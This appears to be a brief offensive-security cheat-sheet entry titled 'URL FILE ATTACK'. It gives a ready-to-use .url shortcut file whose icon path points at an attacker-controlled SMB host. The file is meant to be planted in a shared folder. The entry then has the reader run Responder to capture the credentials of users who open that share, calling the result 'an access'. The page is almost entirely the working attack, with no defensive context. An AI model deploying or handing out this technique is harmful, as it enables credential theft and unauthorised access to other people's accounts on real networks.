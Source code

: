 ```yaml
---
description: If u have a access to a share we can try this
---
```


# URL FILE ATTACK

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

Paste this into an .url file in the file share

then turn on listner for an event where someone opens it

```
responder -I eth0 -v
```

If the event occurs we get an access
